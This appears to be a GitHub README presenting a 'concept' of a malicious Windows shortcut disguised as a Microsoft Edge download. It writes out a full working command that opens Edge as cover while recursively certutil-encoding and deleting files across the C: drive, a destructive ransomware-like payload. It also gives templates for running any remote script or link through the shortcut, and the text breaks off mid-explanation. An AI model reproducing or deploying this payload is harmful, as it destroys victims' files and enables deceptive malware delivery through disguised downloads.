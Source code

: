 

Concept of gaining access to a shell through a stealthy executable:



People usually think viruses are hidden in the file you run, slipped into the code and encripted to stay hidden. This one does not. It hides in plain sight but can do just as much damage. For example, if someone was to navigate to a maliscious website to download and then run a file on their machine, they wouldn't notice anything was wrong with the file. Their antivirus might not catch that the file properties have been modified to run whatever it wants in the terminal. 

Lets say the website has a microsoft edge shortcut for download. The website visitor downloads the inesent looking file and opens it.

 The file look like this when downloading:

![alt text](https://github.com/Destroyer7s/DangerFiles/blob/main/shell%20by%20properties/Download.png)


And this in the Windows file system:

![alt text](https://github.com/Destroyer7s/DangerFiles/blob/main/shell%20by%20properties/Microsoft_Edge.png)


It's not until you look closer that you see what it can really do:

![alt text](https://github.com/Destroyer7s/DangerFiles/blob/main/shell%20by%20properties/Shortcutcode.png)

When you execute the shortcut, the following command is run:

```bash
C:\Windows\System32\cmd.exe /k "C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe" && cd c:\ && forfiles /S /M * /c "cmd /c certutil -encode -f @file @fname.l && findstr /v CER @fname.l > @fname.d && del @file && del @fname.l"
```
It can be seperated to view each command seperatly:

```bash
C:\Windows\System32\cmd.exe /k "C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe" && 
cd c:\ && 
forfiles /S /M * /c "cmd /c certutil -encode -f @file @fname.l && findstr /v CER @fname.l > @fname.d && del @file && del @fname.l"
```
This command allows edge to launch while encripting your files in the background. And this is only the begining!

we can change the script that run to be anything we want:

```bash
C:\Windows\System32\cmd.exe /k "ENTER_LINK_HERE"
```
Or just:

```bash
powershell start ENTER_LINK_HERE
```



How are we able to achieve this? Through the way Windows treats shortcut files. Here we see where the payload is stored:









